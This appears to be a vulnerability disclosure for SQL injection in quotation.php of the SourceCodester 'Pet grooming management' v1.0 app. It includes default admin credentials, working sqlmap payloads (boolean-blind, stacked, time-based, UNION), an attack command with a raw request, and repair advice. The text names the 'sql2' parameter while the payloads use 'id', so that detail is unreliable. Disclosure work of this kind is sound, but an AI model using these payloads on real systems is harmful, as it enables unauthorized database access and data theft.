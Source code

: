 # Pet grooming management quotation.php  v.1.0  sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'quotation.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql2" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "quotation.php" file. This vulnerability stems from insufficient user input validation of the 'sql2' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# Login or authorization is required to exploit this vulnerability
1、Log in to the system using the default password [mdkhairnar92@gmail.com](mailto:mdkhairnar92@gmail.com): admin
2、By examining the /admin/quotation.php code, it was discovered that the sql2 parameter was concatenated in the SQL statement
# Vulnerability details and POC

## Vulnerability type:

- stacked queries
- boolean-based blind
- time-based blind
- UNION query

## Vulnerability location:

- "sql2" parameter
## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=-1' AND 2560=(SELECT (CASE WHEN (2560=2560) THEN 2560 ELSE (SELECT 2313 UNION SELECT 8205) END))-- NLWa
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=-1' AND (SELECT 7929 FROM (SELECT(SLEEP(5)))qhcj)-- Tajj
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 18 columns
    Payload: id=-1' UNION ALL SELECT NULL,NULL,CONCAT(0x7176787071,0x5a6258634645474a554a734f764e4f43666376645a4b4b50447761546d544d4c774d574273546152,0x71786b7171),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250917210956.png](./assets/image-20250917210956.png)

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /admin/quotation.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

id=-1*
```
# Attack results

![image-20250917211115.png](./assets/image-20250917211115.png)
# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
